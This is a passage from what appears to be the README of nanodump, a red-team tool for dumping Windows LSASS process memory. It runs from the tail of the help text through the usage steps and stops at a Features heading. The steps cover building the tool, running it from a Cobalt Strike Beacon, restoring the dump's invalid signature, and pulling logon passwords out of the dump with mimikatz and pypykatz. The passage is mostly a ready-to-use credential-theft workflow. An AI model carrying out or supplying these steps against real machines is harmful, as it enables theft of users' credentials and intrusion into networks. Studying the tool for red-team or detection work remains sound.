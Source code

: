 ```
            open a handle to LSASS with low privileges and duplicate it to gain higher privileges
Miscellaneous:
    --getpid
            print the PID of LSASS and leave
Help:
    --help, -h
            print this help message and leave

```

<h3>Clone</h3>

```bash
git clone https://github.com/helpsystems/nanodump.git
```

<h3>Compile (optional)</h3>

<b>On Linux with MinGW</b>

```bash
make -f Makefile.mingw
```

<b>On Windows with MSVC</b> (No BOF support)

```bash
nmake -f Makefile.msvc
```

<h3>Import (CobaltStrike only)</h3>

Import the `NanoDump.cna` script on Cobalt Strike.

<h3>Run</h3>

Run the `nanodump` command in the Beacon console or the `nanodump.x64.exe` binary.

<h3>Restore the signature</h3>

If you didn't specify the `--valid` flag, you need to restore the invalid signature
```zsh
scripts/restore_signature <dumpfile>
```

<h3>Get the secretz</h3>

<b>mimikatz:</b>  
To get the secrets simply run:
```sh
mimikatz.exe "sekurlsa::minidump <dumpfile>" "sekurlsa::logonPasswords full" exit
```

<b>pypykatz:</b>  
If you prefer to stay on linux, you can use the python3 port of mimikatz called [pypykatz](https://github.com/skelsec/pypykatz).  
```sh
python3 -m pypykatz lsa minidump <dumpfie>
```

<h2 id="features">2. Features</h2>
